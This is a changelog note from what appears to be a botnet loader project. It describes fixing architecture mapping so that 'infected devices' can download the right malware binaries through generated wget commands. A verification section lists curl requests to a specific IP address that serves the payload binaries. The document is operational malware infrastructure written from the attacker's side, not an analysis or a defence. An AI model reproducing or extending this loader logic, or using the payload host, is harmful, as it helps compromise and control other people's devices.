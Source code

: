 # Architecture Mapping Fix

## Problem
Infected devices were requesting binaries for architectures that don't exist in `/var/www/html/bins/`:
- `static.superh` → 404 Not Found
- `static.sparc` → 404 Not Found  
- `static.x86_64` → 404 Not Found

## Solution
Updated the loader to map requested architectures to available binaries:

### Architecture Mappings:
- `superh` / `superh7` → `sh4`
- `sparc` → `spc` 
- `x86_64` → `x86`

### Changes Made:

1. **Updated `binary_get_by_arch()` in `binary.c`**:
   - Added architecture mapping logic
   - Maps requested architectures to available ones
   - Maintains backward compatibility

2. **Updated wget URL generation in `server.c`**:
   - Maps architecture before generating wget command
   - Uses mapped architecture in URL: `http://server/bins/static.{mapped_arch}`
   - Updated debug logging to show mapping

### Result:
- No more 404 errors for `superh`, `sparc`, `x86_64`
- Infected devices get correct binaries
- All architectures properly mapped to available binaries
- No symlinks or workarounds needed

### Verification:
```bash
# These now return 200 OK instead of 404:
curl -I http://185.247.117.214/bins/static.sh4    # (mapped from superh)
curl -I http://185.247.117.214/bins/static.spc    # (mapped from sparc)  
curl -I http://185.247.117.214/bins/static.x86    # (mapped from x86_64)
```

The loader now properly handles architecture mapping without any workarounds or symlinks.
